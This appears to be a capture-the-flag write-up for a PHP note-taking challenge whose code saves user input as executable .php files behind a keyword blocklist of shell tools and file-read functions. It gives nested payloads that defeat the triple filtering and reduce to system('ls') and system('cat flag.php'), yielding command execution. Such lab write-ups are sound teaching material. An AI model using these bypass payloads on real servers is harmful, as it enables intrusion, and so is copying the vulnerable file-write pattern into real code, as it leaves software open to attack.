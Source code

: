 # PHat Pottomed Girls

> Tags: web, php  

## Challenge Description

![image](https://user-images.githubusercontent.com/56489087/139527309-ee0b8d13-c9a3-4754-8964-348076f03130.png)

## Target

We can see the the website is just a note creating site that contain links to notes in a php file format. If they are saved in PHP that means we can use PHP to execute code. 

![image](https://user-images.githubusercontent.com/56489087/139527977-b20ce664-e0bd-4232-8aba-fa420a6dce55.png)


## Addnote.php

File provided in challenge.

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

We can see that the filter function is being used on our payload 3 times. Because it search out and replaces it with nothing, it closes the gaps within our payload. After some testing  we came up with this payload.

> <<<<????php ssssystemystemystemystem("ls"); ????>>>>

It will progress in such a way that the last payload left will evaluate to:

```php
<?php system("ls"); ?>
```

This command will allow us to read the contents of the root directory.

We can then find the name of the flag file and read its contents.

> <<<<????php ssssystemystemystemystem("ccccatatatat fffflaglaglaglag.php"); ????>>>>
```php
<?php system("cat flag.php"); ?>
```

![image](https://user-images.githubusercontent.com/56489087/139528082-7b83b53e-8123-4fec-97a7-6c659a64d35a.png)

